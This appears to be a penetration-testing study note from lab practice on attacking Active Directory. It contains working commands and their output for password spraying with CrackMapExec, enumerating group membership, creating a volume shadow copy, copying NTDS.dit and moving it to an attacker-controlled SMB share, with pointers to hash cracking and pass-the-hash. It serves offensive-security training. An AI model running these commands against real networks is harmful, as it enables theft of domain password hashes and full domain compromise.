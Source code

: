 # Attacking Active Directory & NTDS.dit

* Once a Windows system is joined to a domain, it will `no longer default to referencing the SAM database to validate logon requests`.
  * This does not mean the SAM database can no longer be used.
  * to log on using a local account in the SAM database can still do so by
    * specifying the `hostname` of the device proceeded by the `Username` (Example: `WS01/nameofuser`)
    * or with direct access to the device then typing `./` at the logon UI in the `Username` field.

**Launching the Attack with CrackMapExec**

* [crackmapexec.md](crackmapexec.md "mention")

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

* if the admins configured an account lockout policy, this attack could lock out the account that we are targeting
* At the time of this note (January 2022), an account lockout policy is not enforced by default with the default group policies that apply to a Windows domain, meaning it is possible that we will come across environments vulnerable to this exact attack we are practicing.

### Capturing NTDS.dit

* `NT Directory Services` (`NTDS`) is the directory service used with AD to find & organize network resources.
  * the `NTDS.dit` file is stored at `%systemroot%/ntds` on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model). The `.dit` stands for [directory information tree](https://docs.oracle.com/cd/E19901-01/817-7607/dit.html).
  * This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information

\#ev

**Checking Local Group Membership**

```shell-session
net localgroup
```

```shell-session
Aliases for \\DC01

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Account Operators
*Administrators
*Allowed RODC Password Replication Group
*Backup Operators
*Cert Publishers
*Certificate Service DCOM Access
*Cryptographic Operators
*Denied RODC Password Replication Group
*Distributed COM Users
*DnsAdmins
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Incoming Forest Trust Builders
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Pre-Windows 2000 Compatible Access
*Print Operators
*RAS and IAS Servers
*RDS Endpoint Servers
*RDS Management Servers
*RDS Remote Access Servers
*Remote Desktop Users
*Remote Management Users
*Replicator
*Server Operators
*Storage Replica Administrators
*Terminal Server License Servers
*Users
*Windows Authorization Access Group
The command completed successfully.
```

**Checking User Account Privileges including Domain**

```shell-session
net user bwilliamson
```

```shell-session
User name                    bwilliamson
Full Name                    Ben Williamson
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/13/2022 12:48:58 PM
Password expires             Never
Password changeable          1/14/2022 12:48:58 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/14/2022 2:07:49 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
The command completed successfully.
```

* This account has both Administrators and Domain Administrator rights which means we can do just about anything we want, including making a copy of the NTDS.dit file.

**Creating Shadow Copy of C:**

* When all the components support Volume Shadow Copy (VSS), you can use them to back up your application data without taking the applications offline
* We can use vssadmin to create a Volume Shadow Copy (VSS) of the C: drive or whatever volume the admin chose when initially installing AD.
  * It is very likely that NTDS will be stored on C: as that is the default location selected at install, but it is possible to change the location.

```shell-session
 vssadmin CREATE SHADOW /For=C:
```

```shell-session
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

**Copying NTDS.dit from the VSS**

```shell-session
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

* \[\[Create SMB server Linux (HACK)]]

```shell-session
cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

### Crack the NT hash with hashcat

!\[\[Hashcat#Cracking the NT Hash with Hashcat]]

* What if we are unsuccessful in cracking a hash?
* use \[\[Evil-WinRM#Pass-the-Hash|Pass the Hash]]

### Pass-the-Hash Considerations

* \[\[Pass the Hash (PtH)]] !\[\[Evil-WinRM#Pass-the-Hash with Evil-WinRM Example]]
